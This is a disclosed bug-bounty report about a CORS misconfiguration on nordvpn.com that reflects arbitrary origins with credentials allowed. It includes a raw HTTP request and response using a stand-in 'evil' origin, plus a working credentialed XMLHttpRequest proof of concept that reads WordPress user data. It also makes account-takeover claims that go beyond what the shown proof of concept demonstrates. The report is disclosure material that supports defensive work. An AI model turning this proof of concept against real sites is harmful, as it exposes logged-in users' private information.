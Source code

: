 # CORS Misconfiguration on nordvpn.com leading to Private Information Disclosure,Account takeover

## Report Details
- **Report ID**: 758785
- **URL**: https://hackerone.com/reports/758785
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2019-12-15T07:21:37.833Z
- **Disclosed**: 2020-02-21T11:26:28.938Z

## Reporter
- **Username**: shardulb_23
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: nordsecurity

## Vulnerability Information
Summary: 
An cross-origin resource sharing (CORS) policy controls whether and how content running on other domains can perform two-way interaction with the domain that publishes the policy. The policy is fine-grained and can apply access controls per-request based on the URL and other features of the request. If the site specifies the header Access-Control-Allow-Credentials: true, third-party sites may be able to carry out privileged actions and retrieve sensitive information.
This bug could be used to steal users information or force the user to execute unwanted actions. As long that a legit and logged in user is lure to access a attacker controlled HTML page

CORS misconfiguration  is found on https://nordvpn.com/nordvpn.com as "Access-Control-Allow-Origin" is dynamically fetched from client Origin header with "Credentials" set as true.

Steps To Reproduce:
Step 1: 
Request:
GET /wp-json/ HTTP/1.1
Host: nordvpn.com
Origin: http://iamsoevil.com
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:71.0) Gecko/20100101 Firefox/71.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1

Response:
HTTP/1.1 200 OK
Date: Sun, 15 Dec 2019 07:03:00 GMT
Content-Type: application/json; charset=UTF-8
Connection: close
Vary: Accept-Encoding
Cache-Control: public, max-age=1800
Expires: Sun, 15 Dec 2019 07:33:00 GMT
Pragma: no-cache
X-Robots-Tag: noindex
Link: <https://nordvpn.com/wp-json/>; rel="https://api.w.org/"
X-Content-Type-Options: nosniff
Access-Control-Expose-Headers: X-WP-Total, X-WP-TotalPages
Access-Control-Allow-Headers: Authorization, Content-Type
Allow: GET
Access-Control-Allow-Origin: http://iamsoevil.com
Access-Control-Allow-Methods: OPTIONS, GET, POST, PUT, PATCH, DELETE
Access-Control-Allow-Credentials: true
Vary: Origin
X-Generator: front-kr-web-2
Strict-Transport-Security: max-age=31536000; includeSubDomains; preload
X-Cache: MISS
X-Frame-Options: SAMEORIGIN
CF-Cache-Status: HIT
Age: 382
Expect-CT: max-age=604800, report-uri="https://report-uri.cloudflare.com/cdn-cgi/beacon/expect-ct"
Server: cloudflare
CF-RAY: 54568e251c4bd59b-BOM
Content-Length: 91608

Note: Take note from request I inject a header Origin: http://iamsoevil.com then from response it returns Access-Control-Allow-Origin: http://iamsoevil.com. Which mean there is CORS misconfig here (refer screenshot attached).

Step 2:  Exploiting CORS misconfiguration.
1) open https://example.com in browser then inspect the page and go to console. Run the following code in console and you would find it pops up user information or Open above code in any browser and you would find it pops up user information like the attachment.
Code: 
<html>
<script>
var req = new XMLHttpRequest(); req.onload = reqListener; req.open('get','https://nordvpn.com/wp-json/wp/v2/users/1',true); req.withCredentials = true; req.send('{}'); function reqListener() { alert(this.responseText); };
</script>
</html>

Remediation: 
Rather than using a wildcard or programmatically verifying supplied origins, use a whitelist of trusted domains.

References:
https://portswigger.net/blog/exploiting-cors-misconfigurations-for-bitcoins-and-bounties
https://ejj.io/misconfigured-cors/

Reference Reports: #430249 #317391 #426147 #470298

## Impact

1) In this report I want to describe High level bug which can seriously compromise a user account.If I am authorize on this site, I can steal user's sessions, some personal information or do some action.
2) Attacker would treat many victims to visit attacker's website, if victim is logged in, then his personal information is recorded in attacker's server.
3) Also If the site specifies the header Access-Control-Allow-Credentials: true, third-party sites may be able to carry out privileged actions and retrieve sensitive information.

## Attachments
- cors.png
- Cors2.png
- ExploitCORS.png
